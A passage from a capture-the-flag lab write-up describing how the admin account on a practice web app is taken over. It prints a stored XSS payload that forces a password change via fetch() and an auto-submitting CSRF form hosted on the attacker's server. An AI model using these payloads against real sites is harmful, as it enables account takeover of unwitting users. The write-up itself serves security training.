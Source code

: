 ![Web Server Login Worldwap Chat XSS](login_worldwap_chat_xss.webp){: width="1200" height="900" }

Since the password change only requires the new password, we can use this XSS to force the admin to make a password change request.

For this, we can use a payload like this:

```html
<script>fetch('/change_password.php',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:"new_password=password"});</script>
```
{: .wrap }

After sending our payload as a message on the chat and the admin visiting the chat, we are able to login as the admin user with the new password.

![Web Server Login Worldwap Admin Login](login_worldwap_admin_login.webp){: width="1200" height="900" }

After logging in, we get redirected to `http://login.worldwap.thm/profile.php`, where we get the admin flag.

![Web Server Login Worldwap Admin Flag](login_worldwap_admin_flag.webp){: width="1200" height="900" }

### CSRF

If we send a link to the admin in the chat, we see the admin user clicking it.

![Web Server Login Worldwap Chat Link](login_worldwap_chat_link.webp){: width="1200" height="900" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.100.74 - - [27/Apr/2024 00:35:57] code 404, message File not found
10.10.100.74 - - [27/Apr/2024 00:35:57] "GET /test HTTP/1.1" 404 -
```

Since the password change request is a [simple request](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests), this causes a CSRF vulnerability where we can make the admin visit a malicious page we control that will automatically submit a form to the password change endpoint, and since this will be a simple request, cookies will be included.

Using Python to host our malicious page:

```html
<!DOCTYPE html>
<html>
<head>
	<title>CSRF</title>
</head>
<body>
<form id="autosubmit" action="http://login.worldwap.thm/change_password.php" enctype="application/x-www-form-urlencoded" method="POST">
 <input name="new_password" type="hidden" value="password" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
</body>
</html>
```
{: file="change_pass.html" .wrap }
